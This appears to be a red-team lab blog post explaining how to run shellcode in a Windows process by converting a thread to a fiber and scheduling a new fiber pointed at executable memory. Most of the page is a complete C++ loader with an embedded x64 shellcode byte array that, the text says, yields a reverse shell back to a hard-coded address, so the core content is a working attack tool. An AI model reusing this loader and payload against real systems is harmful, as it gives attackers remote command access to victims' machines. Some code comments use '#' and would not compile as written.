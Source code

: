 ```yaml
---
layout: post
title: "executing shellcode with createfiber"
date: 2024-06-18
categories: code-injection-process-injection
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /code-injection-process-injection/
---
```


# Shellcode Execution through Fibers

## Overview

The purpose of this lab is to use Windows APIs targetting `fibers` to execute shellcode in a local process.

> A _fiber_ is a unit of execution that must be manually scheduled by the application. Fibers run in the context of the threads that schedule them.   
> [https://docs.microsoft.com/en-us/windows/win32/procthread/fibers](https://docs.microsoft.com/en-us/windows/win32/procthread/fibers)

## Technique

The process of the executing shellcode in a local process through fibers:

1. Convert the main thread to a fiber. This is required, because only one fiber can schedule another fiber.
2. Write shellcode to some memory location and make it executable
3. Create a new fiber that points to the shellcode location - this is the fiber we will be scheduling from the fiber we got in step 1 when converting the main thread to a fiber.
4. Schedule the newly created fiber that points to our shellcode
5. The fiber gets scheduled and shellcode executes

## Code

Below is the code showing how to execute the shellcode using fibers:

```cpp
#include <Windows.h>

int main()
{
	#convert main thread to fiber
	PVOID mainFiber = ConvertThreadToFiber(NULL);

 	unsigned char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\xac\x14\x0a\x07\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

	PVOID shellcodeLocation = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(shellcodeLocation, shellcode, sizeof shellcode);

	#	create a fiber that will execute the shellcode
	PVOID shellcodeFiber = CreateFiber(NULL, (LPFIBER_START_ROUTINE)shellcodeLocation, NULL);
	
	# manually schedule the fiber that will execute our shellcode
	SwitchToFiber(shellcodeFiber);

	return 0;
}
```

Running the code executes the shellcode us a reverse shell:

![](../../.gitbook/assets/shellcode-fibers.gif)

## References

{% embed url="https://docs.microsoft.com/en-us/windows/win32/procthread/fibers" %}

{% embed url="https://nullprogram.com/blog/2019/03/28/" %}

{% embed url="http://dronesec.pw/blog/2019/08/12/code-execution-via-fiber-local-storage/" %}
@spotheplanet
